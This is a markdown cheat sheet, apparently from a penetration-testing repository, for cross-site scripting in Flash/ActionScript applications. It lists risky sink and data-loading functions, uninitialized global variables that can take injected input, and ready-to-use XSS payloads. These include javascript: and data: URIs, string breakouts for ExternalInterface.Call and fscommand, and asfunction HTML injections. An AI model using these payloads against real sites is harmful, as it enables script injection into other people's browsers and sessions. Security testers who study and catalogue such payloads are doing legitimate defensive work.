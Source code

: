 ```none
htmlText
htmlVar
loadClip
AddDLL
```

Functions that can load objects, or send/receive/store data:
```none
XMLLoader, AMFService, SWFLoader, loadVariables, loadMovie,
loadMovieNum, LoadVars.load, LoadVars.send, NetStream.play,
getDefinition, getDefinition, FScrollPane.loadScrollContent, XML.load,
Sound.loadSound, NetStream.play, URLRequest, URLLoader,
URLStream, LocalConnection, SharedObject
```

Uninitialized global vars (ActionScript 2):
```none
_root
_global
_level0
```

Uninitialized global vars (ActionScript 3):
```none
root
loaderInfo
parameters
```


## XSS payloads

AS2 getURL() / AS3 NavigateToURL():
```none
javascript:alert(1)
javascript://adobe.com%0aalert(1)
data:text/html,<script>alert(1)<script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

AS2 fscommand, AS2 .watch, AS3 externalInterface.Call (like PHP preg_replace/e issue):
```none
alert`0`
%#jsinitfunctio%gn=alert%601%60
\"))-alert(1)}catch(e){}//
\"))} catch(e) {alert(1);}//
\');alert(document.domain);
\"));throw_error()}catch(e){alert(document.domain))}//
\");function%20someFunction(a){}prompt(1)//
"%5D);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
flash.external.ExternalInterface.call("alert", '1');
```

HTML injection:
```none
<img src='javascript:alert(1)//.swf'>
<a href=asfunction:System.Security.allowDomain,www.example.com>
<a href=asfunction:getURL,javascript:alert(1)>
```

